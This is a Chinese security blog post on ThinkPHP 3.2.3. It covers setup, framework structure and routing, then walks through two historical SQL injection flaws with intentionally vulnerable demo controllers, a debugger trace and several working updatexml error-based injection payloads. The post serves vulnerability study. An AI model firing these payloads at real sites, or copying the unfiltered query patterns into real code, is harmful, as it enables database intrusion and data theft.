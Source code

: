 # ThinkPHP3.2.3漏洞学习


ThinkPHP 漏洞学习
&lt;!--more--&gt;
# 环境搭建
`ThinkPHP3`

`composer create-project topthink/thinkphp=版本号 文件名`

`ThinkPHP5`(完整版)

`composer create-project topthink/think=版本号 文件名`

阿里云 Compose 全量镜像资源库

`composer config -g repo.packagist composer https://mirrors.aliyun.com/composer/`

https://www.runoob.com/w3cnote/composer-install-and-usage.html

https://packagist.org/
# 框架了解
审计之前，我们需要了解框架的信息

[ThinkPHP3.2.3完全开发手册](https://www.kancloud.cn/manual/thinkphp/1678)

`composer create-project topthink/thinkphp=3.2.3 thinkphp3.2.3`
```
index.php      入口文件
Application    应用目录
Public         资源文件目录
ThinkPHP       框架目录
```
其中框架目录`ThinkPHP`的结构如下
```
Common         核心公共函数目录
Conf           核心配置目录
Lang           核心语言包目录
Library        核心类库目录
    Think      核心Think类库目录
    Behavior   行为类库目录
    Org        Org类库目录
    Vendor     第三方类库目录
	...        更多类库目录
Mode           框架应用模式目录
Tpl            系统模板目录
ThinkPHP.php   框架入口文件
```
其中`Application`目录如下
```
Common         应用公共模块
    Common     应用公共函数目录
    Conf       应用公共配置文件目录
Home           默认生成的Home模块
    Conf       模块配置文件目录
    Common     模块函数公共目录
    Controller 模块控制器目录
    Model      模块模型目录
    View       模块视图文件目录
Runtime        运行时目录
    Cache      模板缓存目录
    Data       数据目录
    Logs       日志目录
    Temp       缓存目录
```
## 路由信息
thinkphp3使用 URL 模式切换：普通 GET 模式、pathinfo、rewrite 和兼容模式
`/ThinkPHP/Conf/convention.php`
```php
return array(
	&#34;URL_MODEL&#34; =&gt; 1
	//URL模式:0(普通模式) 1(PATHINFO 模式) 2(REWRITE模式) 3(兼容模式)
	//静态路由
	&#34;URL_ROUTE_ON&#34; =&gt; fasle,
	&#34;URL_ROUTE_RULES&#34; =&gt; array()
)
```
# 历史漏洞
## SQL 注入
### 0x01 聚合查询功能count方法未过滤调用parseKey
#### 利用条件
`ThinkPHP[5.0.0,5.0.23]，ThinkPHP 3 全版本`
### 漏洞分析和原理
`ThinkPHP3.2.3`
漏洞 demo
```java
public function SqlDemo(){
	$field = I(&#39;get.field&#39;);
	$num = M(&#39;user&#39;)-&gt;count($field);
	//M(&#39;user&#39;) 相当于 new Think\Model(&#39;user&#39;)
	var_dump($num);
}
```
poc
`?field=id),updatexml(1,concat(1,user(),1),1)from&#43;user%23`

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922219.png)

在这里打个断点，跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131922041.png)

会进入到`ThinkPHP/Library/Think/Model.class.php`中的`__call`方法中，
因为是`count`，所以进入到`$this-&gt;getField()`方法

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131928555.png)

经过对传入字段进行解析等一系列操作之后，

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131931608.png)

进入到`$this-&gt;db-&gt;select()`方法中
此时传入的`$options`变成了

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131932383.png)

继续跟进，这里进入到了`$this-&gt;buildSelectSql()`方法，来构建 select 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934433.png)

进入到`$this-&gt;parseSql()`方法中

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131934837.png)

利用`$this-&gt;parseField()`方法进行解析，继续跟进

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131938968.png)

这里的`$this-&gt;parseKey()`对传入的 payload 并没有进行过滤

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131939109.png)

然后便回到`$this-&gt;parseField()`方法中，返回构建的 field 语句

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131941304.png)

 最终回到`$this-&gt;parseSql()`方法中，返回最终需要执行的 sql 语句
 
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131942656.png)

最后得到了执行

![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202401131943511.png)


### 0x02 \_parseOptions未过滤$options导致 sql 注入
#### 利用条件
ThinkPHP &lt;= 3.2.3
#### 漏洞原理和分析
`$options`查询条件可以不经过数据处理直接进入`_parseOptions`，再进入`Driver.class.php`的sql操作函数，和上面一样通过`buildSelectsql`方法或直接调用`delete`方法进行拼接 sql 语句，然后再进行执行
漏洞 Demo
```java
public function SqlDemo()
{
    $id = I(&#39;id&#39;);
    $res = M(&#39;user&#39;)-&gt;select($id);
    $res = M(&#39;user&#39;)-&gt;find($id);
}
```
poc

`id[comment]=\*/where 1 and updatexml(1,concat(0x7e,user(),0x7e),1)/\*`

`id[limit]=1,1&#43;procdure&#43;analyse(updatexml(1,concat(0x7e,user(),0x7e),1),1)--`

`id[field]=* from user where 1 and updatexml(1,concat(0x7e,user(),0x7e),1) --&#43;`

具体构造出多少个`poc`，可以看`pasexxx`有多少个



---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/thinkphp3.2.3%E6%BC%8F%E6%B4%9E%E5%AD%A6%E4%B9%A0/  

